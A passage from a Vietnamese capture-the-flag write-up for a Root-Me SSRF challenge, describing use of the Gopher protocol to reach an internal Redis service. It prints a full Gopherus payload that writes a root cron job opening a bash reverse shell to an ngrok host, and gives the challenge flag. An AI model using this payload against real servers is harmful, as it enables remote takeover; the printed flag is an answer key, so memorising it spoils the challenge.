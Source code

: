 ![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/ssrf_05.jpg)

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/ssrf_06.jpg)


Sau khi fuzz qua, mình sẽ thấy được server nó đang dùng redis chạy với port 6379. Thông thường Redis service sẽ được chạy với đặc quyền root trong intranet và mình có thể sử dụng giao thức Gopher để lợi dụng điều đó.

```
Theo mặc định, Redis sẽ bị ràng buộc với 0.0.0.0:6379. Nếu các chính sách liên quan không được thông qua, chẳng hạn như thêm quy tắc tường lửa để tránh truy cập ip nguồn không đáng tin cậy khác, v.v., điều này sẽ hiển thị dịch vụ Redis cho mạng công cộng. Nếu không đặt xác thực mật khẩu (thường là trống), nó sẽ khiến bất kỳ người dùng nào truy cập Redis mà không được phép nếu họ có thể truy cập máy chủ mục tiêu và Đọc dữ liệu từ Redis.
Do đó, lỗ hổng này có thể sử dụng SSRF để bỏ qua các hạn chế liên kết cục bộ mà không cần định cấu hình mật khẩu, để tấn công các ứng dụng mạng nội bộ trên mạng bên ngoài.

```

Mình sẽ sử dụng tool tên là Gopherus để tạo ra payload reverse shell. Ngoài ra mình cũng sẽ sử dụng ngrok để thực hiện forward kết nối đến local interface của mình
> link tool:https://github.com/tarunkant/Gopherus

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/ssrf_07.jpg)

```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2472%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/0.tcp.ap.ngrok.io/13392%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A

```
Nếu decode nó ra, mình có thể thấy nó là gói dữ liệu TCP của reverseShell được viết bằng bash.

Giờ thì ném payload lên và chờ sẵn ở port 1234. Chờ 1 lúc cũng được:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/ssrf_08.jpg)

Đọc được flag:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/ssrf_09.jpg)


> Flag: SSRF_PwNiNg_v1@_GoPh3r_1s_$o_c00l!

## 4. Upload File - Zip

```
Your goal is to read index.php file

```
![image](https://user-images.githubusercontent.com/104350480/218240598-e6d84d9a-b167-4b46-82cd-8cbdcde84287.png)

